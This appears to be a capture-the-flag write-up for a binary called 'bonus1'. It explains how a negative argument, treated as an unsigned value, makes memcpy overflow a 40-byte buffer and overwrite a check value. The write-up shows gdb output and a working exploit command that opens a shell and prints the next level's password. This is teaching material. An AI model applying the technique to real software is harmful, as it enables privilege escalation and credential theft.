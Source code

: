 ## bonus1
The `bonus1` will crash without arguments, so we disassebled the main to see that the program expects two arguments, the first argument will be passed to `atoi(argv[1])`
and the second one to `memcpy()` but before getting there we have some tests to pass, and if we can pass the tests a function for executing the shell will be called.
The first test will be if the number we provide as argument is less or equal to 0x9 <br>`0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9`<br> and this number will be store right after a `buffer[40]` <br>` 0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax` <br>
Next our second parameter will be copied to the *buffer[40]* using the `memcpy()` function, we know this function has no checks, and we will be using it for our exploit. The size passed to `memcpy()` is our first parameter multiplied by 4 and right after the call to `memcpy()` there's a comparison if the number we passed as first argument and a huge number, if they are equal we get the shell, otherwise the program jumps to the end. <br>
`0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46`<br>
Wait but what's the point? first there's a check for the number to be less than 10 and then they want it to be equal to *0x574f4c46 (1464814662)* ? what the heck.
To get around this we will use `memcpy()` to right enough character to change the value of the *number* and put this huge value in place *0x574f4c46*.<br>
I can hear you: *Hey, smarty pants! How are you gonna do that if `memcpy()` will copy the number you entered times 4 and you cannot enter a number greater than 9 and the number is 40 bytes above* ?
Me: Hey don't you remember those times working on the *libft* and when you passed a negative number for an unsigned type it will become a huge number, so that's what we are going to do here, lets find the *offset* I worte this rudmentary program to help us on finding a negative number multiplied by 4 that will give what we want
```
#include <stdio.h>
int			main(void) {
	unsigned int n = -2147483637;
	printf("%u\n", n * 4);
	return (0);
}

./a.out
44
```
After starting at *-2147483648* and changing we finally found the one that will return what we want `-2147483637` gives us `44`
We need 44 because the *number* is 40 bytes above the *buffer[40]* in memory and as we want to overwrite it we add *4* and we get past, so *40 'A' + 0x574f4c46* will be our *argv[2]* and *-2147483637* that will be multiplied by *4* that will become *44* characters to be copied into the *buffer[40]* and we overwirte the *number*
```
(gdb) r -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) i r
eax            0x0	0
ecx            0x41414141	1094795585 <---- look right here 
edx            0xbffff69c	-1073744228
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6b0	0xbffff6b0
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0xb7e454d3	0xb7e454d3 <__libc_start_main+243>
eflags         0x200a02	[ IF OF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Now we just need to change the last for bytes to the huge number like so:
```
./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")

$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
